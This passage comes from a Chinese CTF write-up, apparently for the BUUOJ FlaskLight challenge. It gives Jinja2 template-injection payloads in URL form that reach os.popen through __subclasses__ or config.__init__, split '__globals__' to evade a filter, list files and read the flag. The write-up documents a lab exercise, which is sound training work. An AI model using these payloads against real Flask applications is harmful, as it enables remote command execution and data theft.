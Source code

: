 ![](https://peekab.oss-cn-hangzhou.aliyuncs.com/intranet/20230107134814.png)

```c
http://ef367849-b584-41fc-a217-2b5e4baaf5cd.node4.buuoj.cn:81/?search={{[].__class__.__base__.__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('cat flasklight/coomme_geeeett_youur_flek').read()}}
```

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/intranet/20230107134920.png)

## 4、解法四

>   这次使用基于config的测试

>   直接输入config会发现有返回值

```
http://ef367849-b584-41fc-a217-2b5e4baaf5cd.node4.buuoj.cn:81/?search={{config}}
```

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/intranet/20230107135337.png)

>   然后可以直接通过config初始化一个全局变量然后在使用os模块、popen()方法执行命令read()读取值

```c
http://ef367849-b584-41fc-a217-2b5e4baaf5cd.node4.buuoj.cn:81/?search={{config.__init__['__glo'+'bals__'].os.popen('ls').read()}}
```

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/intranet/20230107135541.png)

>   可以发现直接获取到了根目录文件列表，那么接下来的事情就是获取flag

```c
http://ef367849-b584-41fc-a217-2b5e4baaf5cd.node4.buuoj.cn:81/?search={{config.__init__['__glo'+'bals__'].os.popen('cat flasklight').read()}}
```

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/intranet/20230107135643.png)

```c
http://ef367849-b584-41fc-a217-2b5e4baaf5cd.node4.buuoj.cn:81/?search={{config.__init__['__glo'+'bals__'].os.popen('cat flasklight/coomme_geeeett_youur_flek').read()}}
```

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/intranet/20230107135712.png)